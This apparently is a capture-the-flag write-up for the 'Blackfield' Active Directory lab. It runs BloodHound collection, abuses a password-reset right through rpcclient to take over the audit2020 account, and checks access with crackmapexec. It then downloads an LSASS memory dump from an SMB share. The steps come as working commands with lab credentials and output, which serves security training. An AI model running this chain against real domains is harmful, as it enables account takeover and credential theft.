 ### BloodHound python
* -c ALL All collection methods
* -d domain name
* -dc DC name
* -ns use $IP as the DNS server

```bash
bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns $IP

or

bloodhound-python -c DcOnly -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns $IP 

bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns $IP
```

Click "OUTBOUND OBJECT CONTROL" -> "First Degree Object Control"

##### Reset AD passwords
https://room362.com/post/2017/reset-ad-user-password-with-linux/

https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse#forcechangepassword

https://www.hackingarticles.in/active-directory-enumeration-rpcclient/

note level 23 is the arbitrary to make it work here.

```bash
rpcclient $> setuserinfo2 audit2020 23 'qwer1234' 
result: NT_STATUS_PASSWORD_RESTRICTION
result was NT_STATUS_PASSWORD_RESTRICTION
rpcclient $> setuserinfo2 audit2020 23 'qwer1234!'
```

### Access Check should be done before trying login
##### winrm
```bash
crackmapexec winrm $IP -u audit2020 -p 'qwer1234!'
```
```bash result
SMB         10.129.114.78   5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.129.114.78   5985   DC01             [*] http://10.129.114.78:5985/wsman
WINRM       10.129.114.78   5985   DC01             [-] BLACKFIELD.local\audit2020:qwer1234!
```
still no winrm, but can smb

### Then let's SMB
```bash
smbmap -H $IP -u audit2020 -p 'qwer1234!'

smbclient //$IP/forensic -U=audit2020%qwer1234!
cd memory_analysis
get lsass.zip

smbget -R smb://$IP/forensic/memory_analysis/lsass.zip -U=audit2020%qwer1234!
```
